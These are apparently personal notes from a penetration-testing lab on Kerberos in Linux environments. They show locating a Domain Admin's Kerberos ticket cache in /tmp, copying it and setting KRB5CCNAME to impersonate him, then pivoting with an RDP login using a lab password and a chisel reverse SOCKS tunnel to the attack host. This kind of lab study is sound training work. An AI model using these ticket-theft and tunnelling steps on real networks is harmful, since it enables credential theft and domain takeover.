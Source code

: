 ## Privilege escalation to root
- `ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222`
- `sudo -l`
	- ![[Pasted image 20250705054539.png]]
- As **root**, we need to identify **==which tickets are present on the machine, to whom they belong, and their expiration time.==**

## Looking for ccache files:
- `ls -la /tmp`
- ![[Pasted image 20250705054616.png]]

- There is one user (julio@inlanefreight.htb) **to whom we have not yet gained access. We can confirm the groups to which he belongs using `id`**.
	- `id julio@inlanefreight.htb`
	- `uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)`
	
- Julio is a **==member of the `Domain Admins` group==**. We can attempt to **impersonate the user and gain access to the `DC01` Domain Controller host.**
- To use a ccache file, **we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.**

## Importing the ccache file into our current session
- `klist`
- `cp /tmp/krb5cc_647401106_I8I133 .`
- `export KRB5CCNAME=/root/krb5cc_647401106_I8I133`
- `klist`
	- ![[Pasted image 20250705054810.png]]

- **Note:** klist displays the ticket information. **==We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary.**==

# Using Linux attack tools with Kerberos
---
- Many Linux attack tools that interact with Windows and Active Directory support Kerberos authentication. 
- If we use them from a domain-joined machine, **we need to ensure our `KRB5CCNAME` environment variable is set to the ccache file** we want to use.
- In this scenario, **our attack host doesn't have a connection to the `KDC/Domain Controller`, and we can't use the Domain Controller for name resolution.**
- To use Kerberos, **we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.**

- ![[Pasted image 20250705055225.png]]

- Connect to MS01 with xfreerdp:
	- `xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution`
- Execute chisel from MS01:
	- `c:\tools\chisel.exe client 10.10.14.33:8080 R:socks`
	- **Note:** The client IP is your attack host IP.
- Finally, we need **to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.**
